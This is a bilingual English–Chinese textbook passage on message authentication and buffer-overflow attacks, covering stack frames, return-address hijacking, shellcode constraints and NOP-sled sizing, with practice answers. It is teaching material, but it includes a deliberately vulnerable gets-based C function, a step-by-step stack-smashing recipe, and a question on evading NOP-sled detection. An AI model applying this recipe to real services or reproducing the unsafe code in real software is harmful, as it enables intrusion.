c. (Sender authentication with a cheating third party) Oscar claims that he sent some message \(x\) with a valid \(\mathrm{auth}(x)\) to Bob, but Alice claims the same. Can Bob settle the question in either case?c. （第三方说谎时的发送方认证）Oscar 声称他向 Bob 发送过某条消息 \(x\)，并附有有效的 \(\mathrm{auth}(x)\)；但 Alice 也声称是她发送的。在两种情况下，Bob 能否裁定这个问题？
d. (Authentication with Bob cheating) Bob claims that he received a message \(x\) with a valid \(\mathrm{auth}(x)\) from Alice (for example "Transfer $1000 from Alice to Bob"), but Alice claims she never sent it. Can Alice settle the question in either case?d. （Bob 说谎时的认证）Bob 声称他从 Alice 那里收到了消息 \(x\)（例如 “Transfer $1000 from Alice to Bob”），并附有有效的 \(\mathrm{auth}(x)\)，但 Alice 声称她从未发送过它。在两种情况下，Alice 能否裁定这个问题？
Answer
A signature is computed with Alice's private key and verified with her public key. A MAC is computed and verified with a key shared by Alice and Bob.签名用 Alice 的私钥计算，并用她的公钥验证。MAC 用 Alice 和 Bob 共享的密钥计算和验证。
| Attack攻击 | (i) Digital signature(i) 数字签名 | (ii) MAC |
|---|---|---|
| a. Integritya. 完整性 | Detected: \(\mathrm{auth}\) no longer matches the changed message, and Oscar cannot compute a new signature without the private key能发现：\(\mathrm{auth}\) 与被修改的消息不再匹配，并且 Oscar 没有私钥就无法计算新的签名 | Detected: Oscar cannot compute a new MAC without the shared key能发现：Oscar 没有共享密钥就无法计算新的 MAC |
| b. Replayb. 重放 | Not detected: every replayed copy is a valid message with a valid signature不能发现：每个重放的副本都是带有有效签名的有效消息 | Not detected, for the same reason不能发现，原因相同 |
| c. Oscar's claimc. Oscar 的声称 | Yes: only Alice can create a valid signature, so Oscar's claim is false. Bob can prove it to anyone with Alice's public key能：只有 Alice 能生成有效签名，因此 Oscar 的声称是假的。Bob 可以用 Alice 的公钥向任何人证明这一点 | Bob can settle it for himself: Oscar has no key, so he cannot have produced a valid MAC, which must come from Alice (or Bob). Bob cannot prove this to an outside judge, who has no keyBob 自己可以裁定：Oscar 没有密钥，因此他不可能生成有效的 MAC，而 MAC 只能来自 Alice（或 Bob）。Bob 无法向没有密钥的外部法官证明这一点 |
| d. Bob's claimd. Bob 的声称 | Yes: Bob cannot forge Alice's signature, so a valid signature on \(x\) proves that Alice signed it and she cannot deny it (non-repudiation)能：Bob 无法伪造 Alice 的签名，因此 \(x\) 上的有效签名证明 Alice 签过名，她无法否认（不可否认性） | No: Bob holds the key and could have produced the MAC himself, so nobody can tell who created the message不能：Bob 持有密钥，本来也可以自己生成这个 MAC，因此无人能判断消息是谁生成的 |
Replay protection needs extra data inside the authenticated message, such as a timestamp, a sequence number or a nonce, with both schemes. Only a digital signature provides non-repudiation; a MAC provides integrity and origin authentication between the two key holders.重放防护需要在两种方案中都在认证消息内加入额外数据，例如时间戳、序列号或一次性随机数（nonce）。只有数字签名提供不可否认性；MAC 只在两个密钥持有者之间提供完整性和来源认证。
思路：MAC 的密钥双方共享，所以防不了收方造假；签名靠私钥，能第三方裁决；两者都防不了重放。
Chapter 14Buffer Overflow and Stack Overflow Attacks缓冲区溢出与栈溢出攻击Reading: Stallings & Brown Ch. 10
Buffer Overflow Basics and Memory Layout ★★★缓冲区溢出基础与内存布局
Goal. Define a buffer overflow, name the three places where it happens, explain why C programs are exposed, and say what an attacker needs to exploit one.目标。 定义缓冲区溢出，说出它发生的三个位置，解释为什么 C 程序容易受到攻击，并说明攻击者利用它需要具备什么条件。
Step 1: the definition第 1 步：定义
In words: buffer overflow = a program writes more data into a fixed-size buffer than the buffer can hold, so the extra bytes overwrite what lies next to it.用文字表述：缓冲区溢出 = 程序向固定大小的缓冲区写入的数据超过其容量，多出的字节覆盖了紧邻它的内容。
A buffer overflow（缓冲区溢出）, also called a buffer overrun, can happen in three places.缓冲区溢出也叫缓冲区越界，可能发生在三个位置。
- The stack: a local variable of a function.栈：函数的局部变量。
- The heap: a block obtained with
mallocor a similar call.堆：通过malloc或类似调用获得的内存块。 - The global (static) data area: a variable declared outside any function.全局（静态）数据区：在任何函数之外声明的变量。
The neighbour of the buffer may be another variable, a memory-management record or, on the stack, the data that a function needs to return correctly. The consequence ranges from a crash (a denial of service) to running code of the attacker's choice with the privileges of the attacked program.缓冲区的邻居可能是另一个变量、一条内存管理记录，或者在栈上，是函数正确返回所需的数据。后果从程序崩溃（即拒绝服务）到以被攻击程序的权限运行攻击者选定的代码，各种情况都有可能。
Step 2: why it happens and what the attacker needs第 2 步：原因以及攻击者需要什么
C writes to memory through raw pointers and array indices without any bounds check. Several standard-library routines copy a string without checking the size of the destination. The classic trigger is to feed such a routine more input than the buffer holds. Languages with automatic bounds checking (Java, Python, Ada) avoid this bug class. They pay with run-time cost and less direct access to hardware. That is why drivers are still written in C.C 语言通过裸指针和数组下标写内存，不做任何边界检查。标准库中有好几个例程复制字符串时，不检查目标的大小。典型的触发方式是：给这类例程输入超过缓冲区容量的数据。带自动边界检查的语言（Java、Python、Ada）不会出现这类错误，代价是运行时开销更大，对硬件的直接访问也更少。这正是驱动程序至今仍用 C 编写的原因。
An attacker needs two things.攻击者需要两样东西。
- A copy or merge operation that can be reached with external data and does not check the size of the destination.一个可以由外部数据触发、且不检查目标大小的复制或合并操作。
- Knowledge of what lies next to the buffer: a return address, a frame pointer or a function pointer.知道缓冲区旁边是什么：返回地址、帧指针或函数指针。
The unsafe copy need not sit where the data was read. A program may store the input safely and copy it unsafely later. So every place that copies or merges data must be checked, not only every place that reads it.不安全的复制操作不一定和读取数据的地方在一起。程序可能先安全地保存输入，之后再不安全地复制它。因此，所有复制或合并数据的地方都必须检查，而不只是读取数据的地方。
Scenario: a network service reads a user name safely into a 100-byte array. Later it copies the name with strcpy into an 8-byte field of a log record. The overflow happens at the copy, not at the read.情景：一个网络服务把用户名安全地读入一个 100 字节的数组。之后它用 strcpy 把用户名复制到日志记录中一个 8 字节的字段。溢出发生在复制时，而不是读取时。
Step 3: an overflow that only corrupts data第 3 步：只破坏数据的溢出
The overflow need not touch the flow of control. The example below changes the logic of the program only.溢出不一定会触及控制流。下面的例子只改变程序的逻辑。

Step 4: where the buffers live第 4 步：缓冲区位于哪里
The operating system gives each process a virtual address space.操作系统为每个进程分配一个虚拟地址空间。
| Region (low → high address)区域（低地址 → 高地址） | Contents内容 |
|---|---|
| Program code (text) and global/static data程序代码段（text）和全局/静态数据 | loaded from the executable file; mostly fixed addresses从可执行文件加载；地址基本固定 |
| Heap堆 | memory obtained with malloc and similar calls; grows upward通过 malloc 及类似调用获得的内存；向高地址方向增长 |
| (unused gap)（未使用的空隙） | reserved but unmapped virtual addresses已保留但未映射的虚拟地址 |
| Stack栈 | one frame per active function call; grows downward as functions are called每个活动函数调用对应一个栈帧；随函数调用的进行而向低地址增长 |
The heap grows up and the stack grows down. The unused gap between them gives run-time defences room to move the stack or heap, and an access in the gap can be flagged illegal (Section 14.5).堆向上增长，栈向下增长。两者之间未使用的空隙，让运行时防御有空间移动栈或堆；访问这段空隙可以被判定为非法（见第 14.5 节）。
Practice练习
Q1. (Define) Define buffer overflow and list the three kinds of location in a process address space where the targeted buffer can be.Q1.（定义）定义缓冲区溢出，并列出进程地址空间中目标缓冲区可能位于的三类位置。
Answer
A buffer overflow is a condition in which a program writes more data into a fixed-size buffer than it has capacity for, so the excess overwrites adjacent memory. The three locations are the stack (a local variable in a function's stack frame), the heap (dynamically allocated memory), and the global/static data area.缓冲区溢出是指程序向固定大小的缓冲区写入超过其容量的数据，使多出的部分覆盖相邻的内存。三类位置分别是：栈（函数栈帧中的局部变量）、堆（动态分配的内存）以及全局/静态数据区。
Q2. (Explain why) In the tag/resp example above, explain why using strncmp(tag, resp, 8) instead of strcmp(tag, resp) does not prevent the attack, and why the overflow can succeed even though read_expected_tag itself is safe.Q2.（解释原因）在上述 tag/resp 示例中，解释为什么使用 strncmp(tag, resp, 8) 而非 strcmp(tag, resp) 无法阻止攻击，以及为什么即使 read_expected_tag 本身是安全的，溢出仍可能成功。
Answer
strncmp only limits how many bytes the comparison reads; it does nothing to limit how many bytes gets() wrote beforehand. By the time the comparison runs, tag may already have been overwritten by the overflow from resp, so comparing only 8 bytes safely does not undo the earlier corruption. The vulnerability is not in how the data is read in originally (read_expected_tag may check its bounds perfectly) but in the later, separate operation — here, gets(resp) — that copies externally controlled data without a bound check; any unchecked copy or merge anywhere in the program can create the overflow, however carefully other parts of the code are written.strncmp 只限制比较时读取的字节数，却不能限制 gets() 事先写入的字节数。比较运行时，tag 可能已被来自 resp 的溢出覆盖，因此仅安全地比较 8 个字节，并不能撤销先前造成的破坏。漏洞并不在于最初读取数据的方式（read_expected_tag 可能完全正确地检查了边界），而在于之后另一个独立的操作——此处为 gets(resp)——它在没有边界检查的情况下复制了外部可控的数据；程序中任何未经检查的复制或合并操作都可能造成溢出，无论代码其他部分编写得多么谨慎。
Q3. (Compare) A team proposes rewriting a security-critical utility in Java instead of C specifically to eliminate buffer overflows. Is this justified? What does it cost, and is the utility now completely safe from this bug class?Q3.（比较）某团队提议将一个安全关键的实用工具用 Java 而非 C 重写，目的正是消除缓冲区溢出。这样做是否合理？它要付出什么代价？该工具是否就此完全不再受这类缺陷的影响？
Answer
Rewriting in Java is justified for this specific goal: Java's arrays and strings carry their length and are checked automatically, so Java code itself cannot overflow a buffer the way C code can. The cost is run-time overhead for the bounds checks, extra memory and compile-time resource use, and reduced ability to access low-level hardware resources directly (irrelevant for most utilities, but important for drivers or kernels). The utility is not automatically completely safe: if it still calls into native libraries or a runtime written in C, a buffer overflow in that underlying code remains possible even though the Java code above it cannot cause one directly.为这一具体目标而改用 Java 重写是合理的：Java 的数组和字符串自带长度信息，并会自动进行检查，因此 Java 代码本身不会像 C 代码那样造成缓冲区溢出。代价包括：边界检查带来的运行时开销、额外的内存与编译期资源消耗，以及直接访问底层硬件资源的能力下降（对大多数工具无关紧要，但对驱动程序或内核很重要）。该工具并不会自动变得完全安全：如果它仍调用以 C 编写的本地库或运行时，那么底层代码中仍然可能出现缓冲区溢出，尽管其上层的 Java 代码本身无法直接导致溢出。
Stack Frames and Function-Call Mechanics ★★★栈帧与函数调用机制
Goal. Draw the stack frame of a function, say what each slot holds, and trace the steps of a call and a return.目标。 画出一个函数的栈帧，说明每个单元存放的内容，并追踪一次调用和返回的各个步骤。
Step 1: what a call does第 1 步：调用做了什么
In words: a call builds a new frame for the callee on the stack, and the return tears it down and jumps back to the caller.用文字表述：调用时在栈上为被调用函数建立一个新的栈帧，返回时拆除这个栈帧，并跳回调用者。
Function P calls function Q. The two build and remove the stack frame（栈帧）of Q in eleven steps.函数 P 调用函数 Q。两者分十一步建立和拆除 Q 的栈帧。
- P pushes the parameters of Q onto the stack, normally in reverse order.P 把 Q 的参数压入栈中，通常按逆序压入。
- P executes
call. It pushes the return address（返回地址）, that is, the address of the instruction after the call, and jumps to Q.P 执行call。它压入返回地址，即调用之后那条指令的地址，然后跳转到 Q。 - Q pushes the current frame pointer（帧指针）, the address of P's frame, so that it can be restored.Q 压入当前的帧指针，即 P 的栈帧地址，以便之后恢复。
- Q sets the frame-pointer register to the current stack pointer. This marks the start of Q's frame.Q 把帧指针寄存器设为当前的栈指针。这标志着 Q 栈帧的开始。
- Q moves the stack pointer down to reserve space for its local variables.Q 把栈指针向下移动，为其局部变量预留空间。
- Q's body runs. It finds parameters, saved frame pointer, return address and locals relative to the frame pointer.执行 Q 的函数体。它通过帧指针来定位参数、保存的帧指针、返回地址和局部变量。
- On exit Q sets the stack pointer back to the frame pointer. The locals are discarded.退出时，Q 把栈指针恢复为帧指针的值，局部变量随之被丢弃。
- Q pops the saved frame pointer. P's frame is current again.Q 弹出保存的帧指针，P 的栈帧重新成为当前栈帧。
- Q executes
ret. It pops the return address and jumps to it.Q 执行ret。它弹出返回地址，并跳转到该地址。 - P pops the parameters of Q.P 弹出 Q 的参数。
- P continues after the call.P 从调用之后继续执行。
Register saving and other details vary with the compiler and processor, and they do not change the overflow below.寄存器保存等细节因编译器和处理器而异，但不影响下面的溢出分析。

Each call gets a fresh frame, so a function can call itself. Each recursive（递归）call has its own locals, and they never collide with those of an earlier call.每次调用都有一个新的栈帧，所以函数可以调用自己。每一次递归调用都有自己的局部变量，不会与之前调用的局部变量冲突。
Step 2: the frame drawn as a table第 2 步：用表格画出栈帧
The function below is the running example of the chapter. It reads a line into a 20-byte buffer without a bound check.下面的函数是本章的贯穿示例。它把一行输入读入一个 20 字节的缓冲区，且不做边界检查。
void greet(char *label) {
char buf[20];
printf("Enter value for %s: ", label);
gets(buf);
printf("Hello, %s! You said: %s\n", label, buf);
}
The table shows the frame of greet just after gets has read the word Bob. The sizes are those of 32-bit x86. The addresses are made up to show the layout. Read the table from the top (high address) to the bottom (low address).下表显示的是 gets 刚读入单词 Bob 之后 greet 的栈帧。各单元大小按 32 位 x86 取值。地址是为了说明布局而虚构的。请从上（高地址）向下（低地址）阅读此表。
| Address地址 | Slot单元 | Size长度 | Holds now当前内容 |
|---|---|---|---|
| 0xbffff610 | parameter label |
4 bytes4 字节 | 0x08048500, the address of the string Alice0x08048500，字符串 Alice 的地址 |
| 0xbffff60c | return address返回地址 | 4 bytes4 字节 | 0x080484c9, the instruction in main after the call0x080484c9，main 中调用之后的那条指令 |
| 0xbffff608 | saved frame pointer (%ebp points here)保存的帧指针（%ebp 指向此处） |
4 bytes4 字节 | 0xbffff628, the frame of main |
| 0xbffff5f4 to 0xbffff6070xbffff5f4 至 0xbffff607 | local buffer buf |
20 bytes20 字节 | B, o, b, a zero byte, then unused bytesB、o、b、零字节，然后是未使用的字节 |
The order from low to high address is: locals, saved frame pointer, return address, parameters. Writing into buf moves upward in memory, toward the two linkage values. Section 14.3 shows the same table after an overflow.从低地址到高地址的顺序是：局部变量、保存的帧指针、返回地址、参数。写入 buf 时，数据会向上移动，朝着两个链接值的方向。第 14.3 节给出溢出之后的同一张表。
In words: the saved frame pointer and the return address are the two values that chain the frames together.用文字表述：保存的帧指针和返回地址是把各个栈帧串联起来的两个值。
The saved frame pointer, read back in step 8, points to the frame of the caller. The return address, read back in step 9, resumes the caller at the right place. A debugger walks this chain to print a backtrace. A stack overflow is dangerous because it can rewrite both values before they are used.保存的帧指针（在第 8 步读回）指向调用者的栈帧。返回地址（在第 9 步读回）让调用者从正确的位置恢复执行。调试器沿着这条链向上遍历，以打印回溯信息。栈溢出很危险，因为它可能在这两个值被使用之前改写它们。
Practice练习
Q1. (Trace) Function main calls f(10), which calls g(3). List, in order, the stack-related actions taken from the call instruction inside f up to the point where g's body starts running.Q1.（手工演算）函数 main 调用 f(10)，后者再调用 g(3)。请按顺序列出从 f 内的 call 指令开始，直至 g 的函数体开始执行为止所采取的与栈相关的全部操作。
Answer
(1) f pushes the argument 3 for g. (2) f executes call g, which pushes the return address (the instruction in f right after this call) and jumps to g. (3) g pushes the current frame pointer, which is the address of f's frame. (4) g sets the frame pointer to the current stack-pointer value, marking the start of g's frame. (5) g moves the stack pointer down to reserve space for its own local variables. Only after this does g's body begin executing.（1）f 为 g 压入参数 3。（2）f 执行 call g，该指令压入返回地址（即 f 中紧接本次调用之后的指令），并跳转到 g。（3）g 压入当前帧指针，即 f 栈帧的地址。（4）g 将帧指针设置为当前栈指针的值，标记 g 栈帧的起始位置。（5）g 下移栈指针，为其自身的局部变量预留空间。只有在此之后，g 的函数体才开始执行。
Q2. (Explain why) Why must a function's local variables be allocated at a fresh location on every call, rather than reusing one fixed block of memory shared by all calls to that function?Q2.（解释原因）为什么函数的局部变量每次调用时都必须分配在一个新的位置，而不能复用所有调用共享的同一块固定内存？
Answer
Reusing one fixed block would break recursion and re-entrancy: a function calling itself (directly or indirectly) would overwrite its own earlier invocation's local variables before that invocation resumes, corrupting its state. Allocating a fresh frame on the stack for every call, at a different location below the previous frame, keeps every active call's local variables independent, which is what the frame-pointer chain and stack-pointer movement in steps 4–5 achieve.复用同一块固定内存会破坏递归和可重入性：一个函数（直接或间接）调用自身时，会在该次调用恢复执行之前覆盖先前调用的局部变量，从而破坏其状态。为每次调用在栈上分配一个新栈帧，并位于前一栈帧之下的不同位置，可以使每个活动调用的局部变量彼此独立；这正是第 4–5 步中帧指针链与栈指针移动所实现的功能。
Stack Buffer Overflow Attacks ★★★栈缓冲区溢出攻击
Goal. Explain step by step how an overflow of a local buffer takes over the return address. Count the bytes needed and write the target address in memory order.目标。 逐步解释局部缓冲区的溢出如何接管返回地址。计算所需的字节数，并按内存顺序写出目标地址。
Step 1: what the overflow overwrites第 1 步：溢出会覆盖什么
In words: a stack overflow keeps writing upward from the buffer and hits the saved frame pointer and then the return address. A chosen return address redirects the program when the function returns.用文字表述：栈溢出从缓冲区开始一直向上写，先后覆盖保存的帧指针和返回地址。被选定的返回地址会在函数返回时把程序导向别处。
A stack overflow（栈溢出）, also called stack smashing, targets a local buffer below the saved frame pointer and the return address of its own frame (Section 14.2).栈溢出也叫栈粉碎，它攻击位于本帧保存的帧指针和返回地址之下的局部缓冲区（见第 14.2 节）。
Scenario: a small server calls greet for each client and passes the name that the client sends. The server does not limit the length. An attacker sends 28 bytes instead of a name. The frame of greet from Section 14.2 changes as follows.情景：一个小型服务器为每个客户端调用 greet，并传入客户端发来的名字。服务器不限制名字的长度。攻击者发送 28 字节的数据来代替名字。第 14.2 节中 greet 的栈帧会按如下方式改变。
| Address地址 | Slot单元 | Before (input Bob)之前（输入 Bob） | After (28 attacker bytes)之后（攻击者的 28 字节） |
|---|---|---|---|
| 0xbffff610 | parameter label |
0x08048500 | unchanged不变 |
| 0xbffff60c | return address返回地址 | 0x080484c9 | 0xbffff5f4, the attacker's choice (bytes 25 to 28)0xbffff5f4，攻击者选定的值（第 25 至 28 字节） |
| 0xbffff608 | saved frame pointer保存的帧指针 | 0xbffff628 | 0xbffff6b8, any address that does not fault (bytes 21 to 24)0xbffff6b8，任一不会引发故障的地址（第 21 至 24 字节） |
| 0xbffff5f4 to 0xbffff6070xbffff5f4 至 0xbffff607 | buf, 20 bytes |
Bob and a zero byteBob 和一个零字节 | the first 20 bytes of the attacker's input攻击者输入的前 20 个字节 |
When greet returns, steps 7 and 8 of Section 14.2 load the changed frame pointer. Step 9 pops the changed return address. The processor continues at 0xbffff5f4, the start of buf, which holds the attacker's data. In a real attack that data is code (Section 14.4).greet 返回时，第 14.2 节的第 7 和第 8 步会载入被改变的帧指针，第 9 步会弹出被改变的返回地址。处理器从 0xbffff5f4 继续执行，那里是 buf 的起始位置，存放着攻击者的数据。在真实的攻击中，这些数据就是代码（见第 14.4 节）。

Random bytes in the return address give a random jump target. The program usually crashes, which is already a denial of service. A chosen address gives the attacker control of the program.返回地址中是随机字节时，跳转目标也是随机的。程序通常会崩溃，这本身就是一种拒绝服务。选定的地址则让攻击者控制程序。
Step 2: how many bytes?第 2 步：需要多少字节？
The saved frame pointer must also hold a plausible value. The function restores it into the frame-pointer register when it exits. A wildly invalid value can crash the program before the return address is used.保存的帧指针也必须是一个看似合理的值。函数退出时会把它恢复到帧指针寄存器中。如果这个值严重无效，程序可能在使用返回地址之前就崩溃了。
Step 3: writing the address in memory order第 3 步：按内存顺序写入地址
The target address must be written with the least significant byte first. For the return address 0xbffff5f4, the last four bytes of the input are f4 f5 ff bf. Writing bf ff f5 f4 would send the program to a different address.目标地址必须先写最低有效字节。对于返回地址 0xbffff5f4，输入的最后四个字节是 f4 f5 ff bf。若写成 bf ff f5 f4，程序就会跳到另一个地址。
Step 4: the attack in five steps第 4 步：五步完成攻击
- Find a copy of external data into a fixed-size buffer without a size check (here
gets).找到一处把外部数据复制进固定大小缓冲区且不检查大小的代码（此处为gets）。 - Work out the offset from the start of the buffer to the return address (here 24 bytes).算出从缓冲区起始处到返回地址的偏移量（此处为 24 字节）。
- Prepare the input: filler up to the offset, then the chosen address in little-endian order. Code to run is placed in the buffer (Section 14.4).准备输入：先用填充数据补足到偏移量，然后按小端序写入选定的地址。要运行的代码放在缓冲区中（见第 14.4 节）。
- Send the input. The overflow overwrites the return address.发送输入。溢出会覆盖返回地址。
- The function returns and jumps to the chosen address. The attacker's code runs with the privileges of the program.函数返回并跳转到选定的地址。攻击者的代码以该程序的权限运行。
Practice练习
Q1. (Calculation) A function has a local buffer char buf[12], followed in its frame by a 4-byte saved frame pointer and a 4-byte return address. How many bytes of input are needed to (a) exactly fill the buffer and frame pointer without touching the return address, (b) first touch the return address, and (c) fully control the return address?Q1.（计算）某函数有一个局部缓冲区 char buf[12]，其栈帧中紧随其后的是 4 字节的已保存帧指针和 4 字节的返回地址。需要多少字节的输入才能：（a）恰好填满缓冲区和帧指针而不触及返回地址；（b）首次触及返回地址；（c）完全控制返回地址？
Answer
(a) \(B+F=12+4=16\) bytes exactly fill the buffer and the saved frame pointer. (b) The 17th byte is the first to land inside the return address. (c) \(B+F+R=12+4+4=20\) bytes are needed to control it completely.（a）\(B+F=12+4=16\) 字节恰好填满缓冲区和已保存的帧指针。（b）第 17 个字节是第一个落入返回地址的字节。（c）需要 \(B+F+R=12+4+4=20\) 字节才能完全控制它。
Q2. (Explain why) An attacker wants to overwrite only the return address and leave the saved frame pointer exactly as it was. Is this possible with a single contiguous overflow of the local buffer below it? Why or why not?Q2.（解释原因）攻击者希望只覆盖返回地址，并使已保存的帧指针保持原样。能否通过对其下方局部缓冲区进行单次连续溢出来实现？为什么能或不能？
Answer
No. The overflow writes contiguous bytes starting right after the buffer's last byte, so it necessarily passes through the saved frame pointer's bytes before it can reach the return address above them — there is no way to "skip over" the frame pointer with one contiguous write. Leaving the frame pointer unchanged while still reaching the return address would need a different kind of bug (for example, a write at a fixed offset rather than a sequential copy), not a simple sequential buffer overflow.不能。溢出写入的是从缓冲区最后一个字节之后开始的连续字节，因此它必然先经过已保存帧指针的字节，才能到达其上方的返回地址——单次连续写入无法“跳过”帧指针。若要在保持帧指针不变的同时仍然到达返回地址，则需要另一类缺陷（例如在固定偏移处写入，而非顺序复制），而不是一个简单的顺序缓冲区溢出。
Q3. (True/false) "Writing 0x08048484 as the last four bytes of an overflow aimed at an x86 return address means writing the bytes 08 04 84 84 in memory order." Justify your answer and give the correct byte sequence.Q3.（判断）“将 0x08048484 作为瞄准 x86 返回地址的溢出数据的最后四个字节写入，意味着按内存顺序写入字节 08 04 84 84。”请说明理由，并给出正确的字节序列。
Answer
False. x86 is little-endian, so the least significant byte is stored first (at the lowest address). 0x08048484 must be written in memory order as 84 84 04 08.错误。x86 采用小端序，因此最低有效字节先存放（位于最低地址）。0x08048484 必须按内存顺序写为 84 84 04 08。
Shellcode and the NOP Sled ★★★Shellcode 与 NOP 滑板
Goal. Say what shellcode is, give its two restrictions with reasons, and explain and calculate the NOP sled. Then describe the whole attack from input to running code.目标。 说明什么是 shellcode，给出它的两个限制及原因，解释并计算 NOP 滑板。然后描述从输入到代码运行的整个攻击过程。
Step 1: what shellcode is第 1 步：什么是 shellcode
In words: shellcode = a small piece of machine code that the attacker puts in the buffer, so that the hijacked return address jumps into it.用文字表述：shellcode = 攻击者放入缓冲区的一小段机器码，使被劫持的返回地址跳转到这段代码中。
Shellcode is machine code supplied by the attacker. The name comes from its classic job: it starts a command shell with the privileges of the attacked program. It can do any other action as well. It cannot call a library function by name, because nothing in the running process resolves its names. It sets up the arguments in registers or memory and makes the system call directly.Shellcode 是攻击者提供的机器码。这个名字来自它的典型用途：以被攻击程序的权限启动一个命令 shell。它也可以执行其他任何操作。它不能按名字调用库函数，因为运行中的进程没有任何东西来解析这些名字。它需要在寄存器或内存中设置好参数，然后直接发起系统调用。
Step 2: the two restrictions第 2 步：两条限制
Two restrictions apply to almost all shellcode that travels in a buffer.几乎所有放在缓冲区中传递的 shellcode 都受两条限制。
| Restriction限制 | Reason原因 | How the code copes代码如何应对 |
|---|---|---|
| Position independent（位置无关） | The attacker knows only the approximate address of the buffer. The same function can be reached by different call paths with different stack use攻击者只知道缓冲区的大致地址。同一个函数可以通过不同的调用路径到达，每条路径占用的栈空间也不同。 | It uses offsets relative to itself. A jump-then-call sequence before the data lets it find the address of its data at run time, because call pushes the address of the next instruction它使用相对于自身的偏移量。在数据前放一段“跳转后调用”的序列，让它在运行时找到数据的地址，因为 call 会压入下一条指令的地址 |
| No NULL bytes不含 NULL 字节 | String-copy functions stop at the first zero byte, so a zero byte inside the shellcode would cut it short字符串复制函数遇到第一个零字节就停止，所以 shellcode 中的零字节会使它被截断 | It builds the zero values at run time, for example by XOR-ing a register with itself它在运行时构造零值，例如让一个寄存器与自身异或 |
Step 3: the NOP sled第 3 步：NOP 滑板
In words: a NOP sled = a run of do-nothing instructions in front of the shellcode, so that the guessed address may be a little wrong and execution still slides into the real code.用文字表述：NOP 滑板 = 放在 shellcode 前面的一串空操作指令，使猜测的地址即使有一点偏差，执行仍会滑入真正的代码。
A NOP sled（NOP 滑板）pads the space before the real shellcode with NOP (no-operation) instructions. They only advance to the next instruction. The attacker aims the return address anywhere inside the padding. Execution runs through the remaining NOPs and reaches the shellcode.NOP 滑板用 NOP（空操作）指令填充真正 shellcode 前面的空间。这些指令只是前进到下一条指令。攻击者可以把返回地址指向填充区域内的任意位置。执行会经过剩余的 NOP，到达 shellcode。
A longer sled tolerates a worse guess. It also uses buffer space that the shellcode needs, so the attacker trades sled length against guessing accuracy and buffer size. The sled length is the buffer size minus the shellcode size.滑板越长，能容忍的猜测误差越大。但滑板也占用了 shellcode 需要的缓冲区空间，因此攻击者要在滑板长度与猜测精度、缓冲区大小之间权衡。滑板长度等于缓冲区大小减去 shellcode 大小。
Worked case: the buffer is 128 bytes and the shellcode is 32 bytes. Sled length = 128 − 32 = 96 bytes. Tolerated error = 96 ÷ 2 = 48 bytes in either direction. If the best guess is 0xbffff5f4 + 48 = 0xbffff624, the middle of the sled is still hit.例题：缓冲区为 128 字节，shellcode 为 32 字节。滑板长度 = 128 − 32 = 96 字节。可容忍的误差 = 96 ÷ 2 = 48 字节，向前或向后都成立。若最佳猜测为 0xbffff5f4 + 48 = 0xbffff624，仍然能命中滑板的中部。
Step 4: the whole attack on one picture第 4 步：用一张图看完整攻击
The picture shows the input for a vulnerable 128-byte buffer, from the lowest address up.下图给出针对一个 128 字节易受攻击缓冲区的输入，从最低地址向上排列。
| Part of the input输入的一部分 | Size长度 | Purpose目的 |
|---|---|---|
| NOP sledNOP 滑板 | 96 bytes96 字节 | Absorbs the error of the address guess吸收地址猜测的误差 |
| Shellcode | 32 bytes32 字节 | The action: for example, start a shell动作：例如启动一个 shell |
| Saved frame pointer保存的帧指针 | 4 bytes4 字节 | A value that does not fault一个不会引发故障的值 |
| Return address返回地址 | 4 bytes4 字节 | Points into the sled, in little-endian order指向滑板内部，按小端序存放 |
The function returns, jumps into the sled, slides to the shellcode and runs it. The attacker has a shell with the rights of the attacked server.函数返回，跳入滑板，滑到 shellcode 并执行它。攻击者由此获得一个具有被攻击服务器权限的 shell。
Practice练习
Q1. (Explain why) Why can shellcode not simply call a library function by name (such as execve) the way ordinary C code does?Q1.（解释原因）为什么 shellcode 不能像普通 C 代码那样直接按名称调用库函数（例如 execve）？
Answer
Calling a library function by name relies on the compiler and linker resolving that name to an address at compile or load time, and on that function's own code already being present and reachable in the normal way a linked program expects. Shellcode is injected directly as raw bytes into a running process with none of that support: there is no symbol-table entry, and the shellcode may not even know where the library is loaded. Instead, shellcode marshals the needed arguments into registers or memory directly and triggers the operation with a software interrupt (system call) inline, rather than going through a named function call.按名称调用库函数依赖于编译器和链接器在编译期或加载期将该名称解析为地址，并且依赖于该函数自身的代码已经存在，且能以链接程序所期望的常规方式访问。而 shellcode 是以原始字节的形式直接注入到正在运行的进程中，无法获得上述任何支持：既没有符号表项，shellcode 甚至可能不知道库被加载在何处。因此，shellcode 改为直接将所需参数装入寄存器或内存中，并通过内联的软件中断（即系统调用）触发操作，而不是经由具名函数调用。
Q2. (Calculation) A vulnerable buffer is 96 bytes. An attacker places a NOP sled followed by 20 bytes of shellcode, filling the buffer exactly, and aims the return address at the middle of the sled. What is the sled's length, and what is the largest address-guessing error the attack still tolerates?Q2.（计算）一个存在漏洞的缓冲区为 96 字节。攻击者在其中放置一段 NOP 滑板，随后紧接 20 字节的 shellcode，恰好填满缓冲区，并将返回地址指向滑板的中部。该滑板的长度是多少？攻击仍能容忍的最大地址猜测误差是多少？
Answer
Sled length \(=96-20=76\) bytes. Aimed at the middle, the attack tolerates an address error of up to \(76/2=38\) bytes in either direction.滑板长度为 \(=96-20=76\) 字节。瞄准中部时，攻击可容忍向任一方向至多 \(76/2=38\) 字节的地址误差。
Q3. (Going further) A defender inspects network traffic for the byte 0x90 (the x86 NOP opcode) repeated many times in a row, to detect NOP sleds. Suggest one way shellcode authors could evade this specific detector while keeping the same "slide into the real code" effect, and state the general principle behind your suggestion.Q3.（进阶）防御者通过检查网络流量中连续多次出现的字节 0x90（x86 的 NOP 操作码）来检测 NOP 滑板。请提出一种 shellcode 作者可以规避这一特定检测器、同时保持相同“滑入真正代码”效果的方法，并说明该建议背后的一般原理。
Answer
